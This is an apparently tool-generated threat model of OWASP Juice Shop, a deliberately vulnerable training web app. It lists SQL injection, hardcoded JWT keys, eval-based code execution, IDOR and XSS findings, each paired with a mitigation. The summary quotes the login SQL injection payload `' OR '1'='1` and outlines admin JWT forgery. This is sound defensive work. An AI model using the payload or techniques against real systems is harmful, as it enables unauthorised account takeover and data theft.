# Threat Model - Juice Shop

_Generated by appsec-advisor v0.4.0-beta (analysis v2)_


---

> | | |
> |---|---|
> | **Project** | Juice Shop v19.2.1 |
> | **Description** | Probably the most modern and sophisticated insecure web application |
> | **Author** | Björn Kimminich <bjoern.kimminich@owasp\.org> (https://kimminich.de) |
> | **License** | MIT |
> | **Repository** | https://github.com/juice-shop/juice-shop |
> | **Homepage** | https://owasp-`juice.shop` |
> | **Runtime** | Node\.js 20 - 24, Express 4 |
> | **Tags** | web security, web application security, webappsec, owasp, pentest, pentesting, security, vulnerable, vulnerability, broken, bodgeit, ctf, capture the flag, awareness |

---

## Changelog

_Append-only history of assessment runs. Most recent first._

| Version | Date | Mode | Depth | Reasoning | Baseline → Current | Δ Threats | Code | Note |
|--------|----------|--------|--------|--------------|------------------|----------------|--------|-------------------|
| v1 | 2026-06-16 | full | standard | sonnet-economy | `455206c` (vs v0) | +0 / ~0 / -0 | - | 92 threats (stable) |


**Latest run (v1) - threat-level delta:**

- **New abuse cases (6):** [AC-T-001](#ac-t-001), [AC-T-002](#ac-t-002), [AC-T-003](#ac-t-003), [AC-T-004](#ac-t-004), [AC-T-005](#ac-t-005), [AC-T-006](#ac-t-006)

---

## Table of Contents

- [Management Summary](#management-summary)
- [Critical Attack Tree](#critical-attack-tree)
1. [System Overview](#1-system-overview)
   - [Scope](#scope)
2. [Architecture Diagrams](#2-architecture-diagrams)
   - [2.1 System Context](#21-system-context)
   - [2.2 Container Architecture](#22-container-architecture)
   - [2.3 Components](#23-components)
   - [2.4 Technology Architecture](#24-technology-architecture)
3. [Attack Walkthroughs](#3-attack-walkthroughs)
   - [3.1 SQL Injection in login query - routes/login.ts:34](#31-sql-injection-in-login-query-routeslogints34)
   - [3.2 Hardcoded RSA private key enables arbitrary JWT forgery - l…](#32-hardcoded-rsa-private-key-enables-arbitrary-jwt-forgery-l)
   - [3.3 Insecure JWT Verification - lib/insecurity.ts:54](#33-insecure-jwt-verification-libinsecurityts54)
   - [3.4 OAuth-Derived Predictable Password - oauth.component.ts:30](#34-oauth-derived-predictable-password-oauthcomponentts30)
   - [3.5 SQL Injection in Product Search Route - routes/search.ts:23](#35-sql-injection-in-product-search-route-routessearchts23)
   - [3.6 Remote Code Execution - routes/userProfile.ts:62](#36-remote-code-execution-routesuserprofilets62)
   - [3.7 Insecure Direct Object Reference - routes/address.ts:11](#37-insecure-direct-object-reference-routesaddressts11)
   - [3.8 Insecure Direct Object Reference - routes/address.ts:18](#38-insecure-direct-object-reference-routesaddressts18)
   - [3.9 Insecure Direct Object Reference - routes/address.ts:29](#39-insecure-direct-object-reference-routesaddressts29)
   - [3.10 Insecure Direct Object Reference - routes/dataExport.ts:26](#310-insecure-direct-object-reference-routesdataexportts26)
   - [3.11 Insecure Direct Object Reference - routes/deluxe.ts:25](#311-insecure-direct-object-reference-routesdeluxets25)
   - [3.12 Insecure Direct Object Reference - routes/deluxe.ts:30](#312-insecure-direct-object-reference-routesdeluxets30)
   - [3.13 Insecure Direct Object Reference - routes/deluxe.ts:35](#313-insecure-direct-object-reference-routesdeluxets35)
   - [3.14 Insecure Direct Object Reference - routes/memory.ts:15](#314-insecure-direct-object-reference-routesmemoryts15)
   - [3.15 Insecure Direct Object Reference - routes/order.ts:142](#315-insecure-direct-object-reference-routesorderts142)
   - [3.16 Insecure Direct Object Reference - routes/order.ts:144](#316-insecure-direct-object-reference-routesorderts144)
   - [3.17 Insecure Direct Object Reference - routes/order.ts:151](#317-insecure-direct-object-reference-routesorderts151)
   - [3.18 Insecure Direct Object Reference - routes/payment.ts:21](#318-insecure-direct-object-reference-routespaymentts21)
   - [3.19 Insecure Direct Object Reference - routes/payment.ts:41](#319-insecure-direct-object-reference-routespaymentts41)
   - [3.20 Insecure Direct Object Reference - routes/payment.ts:70](#320-insecure-direct-object-reference-routespaymentts70)
   - [3.21 Insecure Direct Object Reference - routes/wallet.ts:12](#321-insecure-direct-object-reference-routeswalletts12)
   - [3.22 Insecure Direct Object Reference - routes/wallet.ts:24](#322-insecure-direct-object-reference-routeswalletts24)
   - [3.23 Insecure Direct Object Reference - routes/wallet.ts:27](#323-insecure-direct-object-reference-routeswalletts27)
   - [3.24 Mass-assignment of role field enables privilege escalation…](#324-mass-assignment-of-role-field-enables-privilege-escalation)
   - [3.25 Payment card number stored as unencrypted INTEGER - models/…](#325-payment-card-number-stored-as-unencrypted-integer-models)
   - [3.26 MD5 password hashing without salt - models/user.ts:77](#326-md5-password-hashing-without-salt-modelsuserts77)
   - [3.27 VM Sandbox Escape - routes/b2bOrder.ts:23](#327-vm-sandbox-escape-routesb2borderts23)
   - [3.28 Mass Assignment to role Field in User Registration - server…](#328-mass-assignment-to-role-field-in-user-registration-server)
   - [3.29 Server-Side Template Injection - routes/userProfile.ts:62](#329-server-side-template-injection-routesuserprofilets62)
4. [Assets](#4-assets)
5. [Attack Surface](#5-attack-surface)
   - [5.1 Unauthenticated Entry Points (57)](#51-unauthenticated-entry-points-57)
   - [5.2 Authenticated Entry Points (53)](#52-authenticated-entry-points-53)
7. [Security Architecture](#7-security-architecture)
   - [7.1 Security Control Overview](#71-security-control-overview)
   - [7.2 Identity and Authentication Controls](#72-identity-and-authentication-controls)
   - [7.3 Session and Token Controls](#73-session-and-token-controls)
   - [7.4 Authorization Controls](#74-authorization-controls)
   - [7.5 Query Construction and Data Access Controls](#75-query-construction-and-data-access-controls)
   - [7.6 Input Boundary Validation Controls](#76-input-boundary-validation-controls)
   - [7.7 Output Encoding and Rendering Controls](#77-output-encoding-and-rendering-controls)
   - [7.8 Browser and Cross-Origin Controls](#78-browser-and-cross-origin-controls)
   - [7.9 Cryptography Secrets and Data Protection](#79-cryptography-secrets-and-data-protection)
   - [7.10 File Parser and Outbound Request Controls](#710-file-parser-and-outbound-request-controls)
   - [7.11 Operations Runtime and Supply Chain Controls](#711-operations-runtime-and-supply-chain-controls)
   - [7.12 Real-time and Not Applicable Controls](#712-real-time-and-not-applicable-controls)
   - [7.13 Defense-in-Depth Summary](#713-defense-in-depth-summary)
8. [Findings Register](#8-findings-register)
9. [Abuse Cases](#9-abuse-cases)
10. [Mitigation Register](#10-mitigation-register)
11. [Out of Scope](#11-out-of-scope)
- [Appendix: Run Statistics](#appendix-run-statistics)
- [Appendix A - Vektor Taxonomy](#appendix-a-vektor-taxonomy)

> _Section numbering is non-contiguous: §6 was retired in a prior revision. The remaining sections keep their original numbers so existing cross-references stay valid._

---

## Management Summary

### Verdict

🔴 Juice Shop is not production-ready. A committed RSA private key and two raw-SQL login paths hand an unauthenticated attacker admin-level access within a single HTTP request, while seventeen IDOR endpoints let any authenticated user read or modify every other user's orders, payments, and addresses without any ownership check. Structural fixes - replace hardcoded secrets with runtime injection, switch raw SQL to parameterized queries, add server-side ownership filters - are prerequisites before any production readiness evaluation.

**Risk distribution:** 🔴 Critical: 29 · 🟠 High: 47 · 🟡 Medium: 13 · 🟢 Low: 3 · **Total: 92**


<br/>

**Worst-case scenarios behind this verdict - what an attacker could do today:**

<blockquote style="border-left: 3px solid #dc2626; background: #fef2f2; padding: 16px 20px; margin: 0;">

- **Full admin account takeover without credentials** — `lib/insecurity.ts:23` commits the RSA private key in source. Any attacker who clones the repo can mint a JWT with `role=admin` and call any admin endpoint. Separately, `routes/login.ts:34` interpolates `req.body.email` into raw SQL — the payload `' OR '1'='1` returns the seeded admin row directly. *(🔴 [F-002](#f-002) — SQL Injection in login query — routes/login.ts:34, 🔴 [F-003](#f-003) — Hardcoded RSA private key enables arbitrary JWT forgery — lib/insecurity.ts:23, 🔴 [F-004](#f-004) — Insecure JWT Verification — lib/insecurity.ts:54)*
- **Arbitrary server-side code execution** — `routes/userProfile.ts:62` passes the `username` field through `eval()`. Any authenticated user can execute arbitrary Node\.js on the server. The B2B order endpoint runs `vm.runInContext()` with a prototype-polluted sandbox escape, providing a second independent RCE path without authentication. *(🔴 [F-007](#f-007) — Remote Code Execution — routes/userProfile.ts:62, 🔴 [F-028](#f-028) — VM Sandbox Escape — routes/b2bOrder.ts:23, 🔴 [F-030](#f-030) — Server-Side Template Injection — routes/userProfile.ts:62)*
- **Mass data exposure via broken object-level authorization** — Seventeen API routes (addresses, orders, payments, wallet, deluxe status) look up resources by caller-supplied ID with no ownership check. Any authenticated user iterates IDs to read or modify every other user's financial records. The ORM layer has no ownership filter at the model level. *(🔴 [F-008](#f-008) — Insecure Direct Object Reference — routes/address.ts:11, 🔴 [F-016](#f-016) — Insecure Direct Object Reference — routes/order.ts:142, 🔴 [F-019](#f-019) — Insecure Direct Object Reference — routes/payment.ts:21)*
- **Role escalation via mass assignment** — The user registration route and the profile update route accept `role` in the request body and pass it directly to Sequelize without a field whitelist. Any registrant can set `role=admin` at account creation time. *(🔴 [F-025](#f-025) — Mass-assignment of role field enables privilege escalation — models/user.ts:80, 🔴 [F-029](#f-029) — Mass Assignment to role Field in User Registration — server.ts:419)*
- **Payment card data stored in plaintext** — `models/card.ts:39` stores full payment card numbers as unencrypted INTEGER fields. A SQL injection or direct database read yields every stored card number without any decryption step. *(🔴 [F-026](#f-026) — Payment card number stored as unencrypted INTEGER — models/card.ts:39, 🔴 [F-002](#f-002) — SQL Injection in login query — routes/login.ts:34)*

</blockquote>

<br/>

The dominant attack paths share one root cause: user-controlled data reaches SQL constructors, ORM selectors, and JavaScript evaluators without validation. Fixing those three - parameterized queries, ownership filters, no eval on user input - collapses most of the Critical surface.

**Attack-chain analysis.** 4 findings anchor 4 code-verified attack chains (see [§9](#9-abuse-cases) Abuse Cases): 🔴 [F-002](#f-002) — SQL Injection in login query (`routes/login.ts:34`), 🔴 [F-003](#f-003) — Hardcoded RSA private key enables arbitrary JWT forgery (`lib/insecurity.ts:23`), 🔴 [F-007](#f-007) — Remote Code Execution (`routes/userProfile.ts:62`), 🔴 [F-008](#f-008) — Insecure Direct Object Reference (`routes/address.ts:11`). Their Critical/High ratings reflect exploitability confirmed end-to-end across the chain, not the individual weakness alone.

### Security Posture & Top Threats

**Figure 1 - Architecture, Trust Boundaries & Threats**

Architecture tiers top-to-bottom (External Actors → Client → Application → Data) with the top threats per component. The in-figure legend on the right explains the attack scenarios, severity dots and symbols.


**Figure 2 - Risk Flow: Actor → Tier → Impact**

Heatmap: **actors** (left) → **architecture tiers** (middle, Client → Application → Data) → **impact** (right). Numbered red arrows ①–⑥ are the threats enumerated in the Top Threats table below. Self-registration is open, so the **Authenticated Internet Attacker** tier is one POST away from anonymous - it is shown distinctly because a post-login endpoint is still a different attack surface.



**Threat actors.** The actors below drive the numbered attack paths in the figures above. The **Shop User** is the *victim* of client-side attacks (XSS / CSRF), not an attacker - in Figure 2 the compromise surfaces as the resulting business-impact node rather than as a separate actor box.

- **Shop User** — legitimate customer; target of client-side attacks; target of ⑥ Output Encoding / Cross-Site Scripting.
- **Anonymous Internet Attacker** — no account; registers in seconds when needed; drives ① Insecure Query Construction & Data Access, ② Hardcoded Secrets & Weak Cryptography, ③ Broken Authorization & Access Control, ④ Sensitive File & Secret Exposure, ⑤ Remote Code Execution (unsafe eval).

**6 structural threats**, grouped by weakness class - each row is one threat, not one finding. *Threat Description* states the general architectural weakness (STRIDE in brackets); *Findings* lists the concrete instances, each linked to [§8 Findings Register](#8-findings-register) with its component; *Risk & Impact* combines severity with business consequence.

| # | Threat Description | Findings (→ Component) | Risk & Impact | Fix |
|---|------------------------------------|------------------------------------------------|------------------------------------|--------|
| <a id="path-injection"></a>① | **Insecure Query Construction & Data Access** _(T·I)_<br/>user input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation. | <span style="white-space:nowrap">🔴&nbsp;[F-002](#f-002)</span> - SQL Injection in login query (`routes/login.ts:34`) <span style="white-space:nowrap">→&nbsp;[C-07](#c-07)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-006](#f-006)</span> - SQL Injection in Product Search Route (`routes/search.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-059](#f-059)</span> - XXE File Read (`routes/fileUpload.ts:83`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span> | 🔴 **Critical**<br/>Customer Data Exfiltration | <span style="white-space:nowrap">❶ [M-011](#m-011)</span> — Use parameterized database queries<br/><span style="white-space:nowrap">❶ [M-015](#m-015)</span> — Use parameterized database queries |
| <a id="path-auth-bypass"></a>② | **Hardcoded Secrets & Weak Cryptography** _(S·E)_<br/>authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed. | <span style="white-space:nowrap">🔴&nbsp;[F-003](#f-003)</span> - Hardcoded RSA private key enables arbitrary JWT forgery (`lib/insecurity.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-07](#c-07)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-004](#f-004)</span> - Insecure JWT Verification (`lib/insecurity.ts:54`) <span style="white-space:nowrap">→&nbsp;[C-07](#c-07)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-027](#f-027)</span> - `MD5` password hashing without salt (`models/user.ts:77`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-032](#f-032)</span> - Weak Password Hashing (`models/securityAnswer.ts:46`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-033](#f-033)</span> - OAuth Implicit Flow with No State Validation (`app.routing.ts:262`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-036](#f-036)</span> - `MD5` password hashing enables offline credential recovery (`lib/insecurity.ts:43`) <span style="white-space:nowrap">→&nbsp;[C-07](#c-07)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-037](#f-037)</span> - `MD5` Password Hashing Without Salt (`lib/insecurity.ts:43`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-053](#f-053)</span> - Use of Hard-coded Cryptographic Key (`lib/insecurity.ts:44`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-083](#f-083)</span> - Improper Verification of Cryptographic Signature (`release.yml:1`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span> | 🔴 **Critical**<br/>Full Admin Takeover · Customer Data Exfiltration | <span style="white-space:nowrap">❶ [M-012](#m-012)</span> — Move cryptographic keys to a managed secret store<br/><span style="white-space:nowrap">❶ [M-013](#m-013)</span> — Enforce JWT signature and algorithm verification |
| <a id="path-privilege-escalation"></a>③ | **Broken Authorization & Access Control** _(E·I)_<br/>authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes. | <span style="white-space:nowrap">🔴&nbsp;[F-008](#f-008)</span> - Insecure Direct Object Reference (`routes/address.ts:11`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-009](#f-009)</span> - Insecure Direct Object Reference (`routes/address.ts:18`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-010](#f-010)</span> - Insecure Direct Object Reference (`routes/address.ts:29`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-011](#f-011)</span> - Insecure Direct Object Reference (`routes/dataExport.ts:26`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-012](#f-012)</span> - Insecure Direct Object Reference (`routes/deluxe.ts:25`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-013](#f-013)</span> - Insecure Direct Object Reference (`routes/deluxe.ts:30`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-014](#f-014)</span> - Insecure Direct Object Reference (`routes/deluxe.ts:35`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-015](#f-015)</span> - Insecure Direct Object Reference (`routes/memory.ts:15`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-016](#f-016)</span> - Insecure Direct Object Reference (`routes/order.ts:142`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-017](#f-017)</span> - Insecure Direct Object Reference (`routes/order.ts:144`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-018](#f-018)</span> - Insecure Direct Object Reference (`routes/order.ts:151`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-019](#f-019)</span> - Insecure Direct Object Reference (`routes/payment.ts:21`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-020](#f-020)</span> - Insecure Direct Object Reference (`routes/payment.ts:41`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-021](#f-021)</span> - Insecure Direct Object Reference (`routes/payment.ts:70`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-022](#f-022)</span> - Insecure Direct Object Reference (`routes/wallet.ts:12`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-023](#f-023)</span> - Insecure Direct Object Reference (`routes/wallet.ts:24`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-024](#f-024)</span> - Insecure Direct Object Reference (`routes/wallet.ts:27`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-025](#f-025)</span> - Mass-assignment of role field enables privilege escalation (`models/user.ts:80`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-029](#f-029)</span> - Mass Assignment to role Field in User Registration (`server.ts:419`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-038](#f-038)</span> - Insecure Direct Object Reference (`routes/basketItems.ts:68`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-039](#f-039)</span> - Insecure Direct Object Reference (`routes/delivery.ts:34`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-040](#f-040)</span> - Insecure Direct Object Reference (`routes/orderHistory.ts:36`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-054](#f-054)</span> - Incorrect Permission Assignment (`codeql-analysis.yml:1`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-066](#f-066)</span> - JWT role claim elevation (`lib/insecurity.ts:54`) <span style="white-space:nowrap">→&nbsp;[C-07](#c-07)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-067](#f-067)</span> - Open Redirect Allowlist Bypass (`lib/insecurity.ts:138`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-068](#f-068)</span> - Sensitive Routes Registered Without Authentication Middleware (`server.ts:310`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-069](#f-069)</span> - Authorization Check Disabled on Product Update Route (`server.ts:369`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-071](#f-071)</span> - GITHUB_TOKEN Write-All Permission on 10 of 13 Workflows (`ci.yml:1`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-072](#f-072)</span> - Insecure Direct Object Reference (`models/relations.ts:22`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-089](#f-089)</span> - Improper Access Control (`pr-compliance.yml:4`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span> | 🔴 **Critical**<br/>Full Admin Takeover · Customer Data Exfiltration | <span style="white-space:nowrap">❶ [M-017](#m-017)</span> — Enforce object-level (ownership) authorization<br/><span style="white-space:nowrap">❶ [M-018](#m-018)</span> — Enforce server-side field allowlist before every Sequelize User write to exclude the role field |
| <a id="path-sensitive-data-exposure"></a>④ | **Sensitive File & Secret Exposure** _(I)_<br/>confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content. | <span style="white-space:nowrap">🔴&nbsp;[F-026](#f-026)</span> - Payment card number stored as unencrypted INTEGER (`models/card.ts:39`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-051](#f-051)</span> - Sensitive Information Exposure (`server.ts:208`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-052](#f-052)</span> - Unauthenticated Access Log and FTP Directory Exposed to Internet (`server.ts:269`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-058](#f-058)</span> - TOTP secret stored in plaintext (`models/user.ts:113`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-060](#f-060)</span> - CTF Flag Broadcast to All Connected Sockets (`lib/challengeUtils.ts:71`) <span style="white-space:nowrap">→&nbsp;[C-08](#c-08)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-070](#f-070)</span> - Server-Side Request Forgery (`routes/profileImageUrlUpload.ts:24`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-073](#f-073)</span> - ZIP Path Traversal (`routes/fileUpload.ts:44`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-082](#f-082)</span> - Raw VM Error Propagation to API Response (`routes/b2bOrder.ts:33`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-085](#f-085)</span> - Long-Lived Administrative Secret in Workflow Environment (`pr-compliance.yml:438`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span> | 🔴 **Critical**<br/>Customer Data Exfiltration | <span style="white-space:nowrap">❷ [M-019](#m-019)</span> — Stop storing sensitive data in cleartext<br/><span style="white-space:nowrap">❷ [M-042](#m-042)</span> — Stop exposing internal information to clients |
| <a id="path-remote-code-execution"></a>⑤ | **Remote Code Execution (unsafe eval)** _(E)_<br/>user-supplied data reaches a server-side code-execution sink (`eval`, sandbox primitives, deserialization, prototype-pollution gadgets) and breaks out into arbitrary native execution. | <span style="white-space:nowrap">🔴&nbsp;[F-007](#f-007)</span> - Remote Code Execution (`routes/userProfile.ts:62`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-028](#f-028)</span> - VM Sandbox Escape (`routes/b2bOrder.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-030](#f-030)</span> - Server-Side Template Injection (`routes/userProfile.ts:62`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-075](#f-075)</span> - Unsafe YAML Deserialization (`routes/fileUpload.ts:117`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span> | 🔴 **Critical**<br/>Full Server Compromise · Customer Data Exfiltration · Full Admin Takeover | <span style="white-space:nowrap">❶ [M-016](#m-016)</span> — Remove server-side evaluation of untrusted input<br/><span style="white-space:nowrap">❶ [M-021](#m-021)</span> — Remove server-side evaluation of untrusted input |
| <a id="path-cross-site-scripting"></a>⑥ | **Output Encoding / Cross-Site Scripting** _(T·I)_<br/>attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover. | <span style="white-space:nowrap">🟠&nbsp;[F-001](#f-001)</span> - Insecure Storage of Sensitive Information (`last-login-ip.component.ts:34`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-044](#f-044)</span> - Stored XSS (`about.component.ts:119`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-045](#f-045)</span> - Stored XSS (`last-login-ip.component.ts:39`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-078](#f-078)</span> - DOM-based XSS (`index.ts:126`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span> | 🟠 **High**<br/>Customer Session Hijack | <span style="white-space:nowrap">❷ [M-035](#m-035)</span> — Encode output instead of bypassing the framework sanitizer<br/><span style="white-space:nowrap">❷ [M-036](#m-036)</span> — Encode output instead of bypassing the framework sanitizer |

_STRIDE: S spoofing · T tampering · R repudiation · I information disclosure · D denial of service · E elevation of privilege. Risk, findings, components, impact and Fix are derived deterministically; only the one-line weakness description is authored._

**Verified attack chains.** 4 fully viable ([AC-T-003](#ac-t-003), [AC-T-004](#ac-t-004), [AC-T-005](#ac-t-005), [AC-T-006](#ac-t-006)); 2 partially blocked ([AC-T-001](#ac-t-001), [AC-T-002](#ac-t-002)). These chains combine individual findings into end-to-end exploitation paths verified step-by-step against the code - see [§9 Abuse Cases](#9-abuse-cases) for the per-step breakdown and blocking mitigations.

### Top Mitigations

Highest-impact P1/P2 mitigations - 13 of 54 qualifying (74 total). Full detail in [§10 Mitigation Register](#10-mitigation-register). All 13 mitigation(s) that fix a Critical finding are always listed here.

| # | Component | Mitigation | Addresses | Effort |
|---|----------------------|------------------------------------------------|------------------------------------------------|------|
| **1** | [C-01](#c-01) — Express REST API Backend | ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization | 🔴 [F-008](#f-008) — Insecure Direct Object Reference (`routes/address.ts`)<br/>🔴 [F-009](#f-009) — Insecure Direct Object Reference (`routes/address.ts`)<br/>🔴 [F-010](#f-010) — Insecure Direct Object Reference (`routes/address.ts`)<br/>🔴 [F-011](#f-011) — Insecure Direct Object Reference (`routes/dataExport.ts`)<br/>🔴 [F-012](#f-012) — Insecure Direct Object Reference (`routes/deluxe.ts`)<br/>🔴 [F-013](#f-013) — Insecure Direct Object Reference (`routes/deluxe.ts`)<br/>🔴 [F-014](#f-014) — Insecure Direct Object Reference (`routes/deluxe.ts`)<br/>🔴 [F-015](#f-015) — Insecure Direct Object Reference (`routes/memory.ts`)<br/>🔴 [F-016](#f-016) — Insecure Direct Object Reference (`routes/order.ts`)<br/>🔴 [F-017](#f-017) — Insecure Direct Object Reference (`routes/order.ts`)<br/>🔴 [F-018](#f-018) — Insecure Direct Object Reference (`routes/order.ts`)<br/>🔴 [F-019](#f-019) — Insecure Direct Object Reference (`routes/payment.ts`)<br/>🔴 [F-020](#f-020) — Insecure Direct Object Reference (`routes/payment.ts`)<br/>🔴 [F-021](#f-021) — Insecure Direct Object Reference (`routes/payment.ts`)<br/>🔴 [F-022](#f-022) — Insecure Direct Object Reference (`routes/wallet.ts`)<br/>🔴 [F-023](#f-023) — Insecure Direct Object Reference (`routes/wallet.ts`)<br/>🔴 [F-024](#f-024) — Insecure Direct Object Reference (`routes/wallet.ts`) | Medium |
| **2** | [C-01](#c-01) — Express REST API Backend | ❶ [M-015](#m-015) — Use parameterized database queries | 🔴 [F-006](#f-006) — SQL Injection in Product Search Route (`routes/search.ts`) | Low |
